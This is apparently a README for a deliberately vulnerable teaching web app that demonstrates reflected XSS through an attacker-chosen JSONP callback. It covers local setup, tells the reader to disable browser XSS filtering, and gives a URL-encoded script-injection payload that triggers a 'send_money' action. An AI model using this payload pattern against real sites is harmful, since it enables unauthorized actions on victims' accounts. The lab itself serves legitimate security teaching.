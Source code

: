 ## Description

A web application vulnerable to reflected XSS that is vulnerable via the use of an attacker-controlled JavaScript function callback.

## Requirements

* Python 2
* [CGIHTTPServer](https://docs.python.org/2.7/library/cgihttpserver.html)


## Usage

### Configuring /etc/hosts

This makes use of the imaginary domains "mytrustedomain.com" and "myvulnerablethirdpartydomain.com". To open up your /etc/hosts file to associate the domains with localhost, run this:

    $ sudo nano /etc/hosts

Add these entries:
```
127.0.0.1       mytrusteddomain.com
127.0.0.1       myvulnerablethirdpartydomain.com
```

In `nano`, you can save your changes with Ctrl+o (written as "^O" at the bottom of the screen). After saving the file, use Ctrl+x to exit.

### Starting the server

```
$ chmod -R +x *.py #make the Python web pages executable
$ python -m CGIHTTPServer 8000
```

### Configuring your browser

You will need to bypass or disable the XSS filtering features in your browser. Disabling is easier. (Don't forget to enable it when you're done.)

Firefox:
1. Go to the location `about:config` in the URL.
2. Find the attribute `browser.urlbarfilter.javascript` and set it to `false`.

### Viewing in your browser

Visit http://127.0.0.1:8000/

This will redirect you automatically to http://127.0.0.1/cgi-bin/xssmaker.py

You can add GET parameters in the URL to reflect XSS. For example:

    http://mytrusteddomain.com:8000/cgi-bin/xssmaker.py?a=%3CSCRIPT%20src%3D%22http%3A%252F%2Fmyvulnerablethirdpartydomain.com:8000/cgi-bin/jsonp.py%253Fcallback=send_money%22%3E%3C/SCRIPT%3E%20

### Output

In Firefox 48:

    Money sent to bob
